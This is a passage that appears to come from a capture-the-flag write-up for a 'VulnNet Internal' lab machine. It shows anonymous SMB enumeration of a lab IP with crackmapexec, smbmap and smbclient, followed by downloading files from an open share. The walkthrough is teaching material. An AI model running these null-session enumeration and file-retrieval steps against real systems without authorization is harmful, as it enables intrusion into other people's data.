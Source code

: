 > **Server Message Block (SMB) Enumeration Phase**
> 

`crackmapexec smb $target_ip -u 'anonymous' -p '' --shares`

```powershell
SMB         10.10.6.118     445    VULNNET-INTERNAL [*] Windows 6.1 (name:VULNNET-INTERNAL) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.6.118     445    VULNNET-INTERNAL [+] \anonymous: 
SMB         10.10.6.118     445    VULNNET-INTERNAL [+] Enumerated shares
SMB         10.10.6.118     445    VULNNET-INTERNAL Share           Permissions     Remark
SMB         10.10.6.118     445    VULNNET-INTERNAL -----           -----------     ------
SMB         10.10.6.118     445    VULNNET-INTERNAL print$                          Printer Drivers
SMB         10.10.6.118     445    VULNNET-INTERNAL shares          READ            VulnNet Business Shares
SMB         10.10.6.118     445    VULNNET-INTERNAL IPC$                            IPC Service (vulnnet-internal server (Samba, Ubuntu))

```

`nano /etc/hosts`

```powershell
10.10.6.118     vulnnet.thm VULNNET-INTERNAL
```

`smbmap -H $target_ip -u anonymous`

```powershell
[+] Guest session       IP: 10.10.6.118:445     Name: vulnnet.thm                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        shares                                                  READ ONLY       VulnNet Business Shares
        IPC$                                                    NO ACCESS       IPC Service (vulnnet-internal server (Samba, Ubuntu))
```

`smbclient -U '' \\\\vulnnet.thm\\shares`

```powershell
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Feb  2 04:20:09 2021
  ..                                  D        0  Tue Feb  2 04:28:11 2021
  temp                                D        0  Sat Feb  6 06:45:10 2021
  data                                D        0  Tue Feb  2 04:27:33 2021

                11309648 blocks of size 1024. 3279224 blocks available

smb: \> cd data
smb: \data\> dir
  .                                   D        0  Tue Feb  2 04:27:33 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  data.txt                            N       48  Tue Feb  2 04:21:18 2021
  business-req.txt                    N      190  Tue Feb  2 04:27:33 2021

                11309648 blocks of size 1024. 3278596 blocks available
smb: \data\> mget *
Get file data.txt? y
getting file \data\data.txt of size 48 as data.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
Get file business-req.txt? y
getting file \data\business-req.txt of size 190 as business-req.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \data\> cd ..
smb: \> cd temp
```
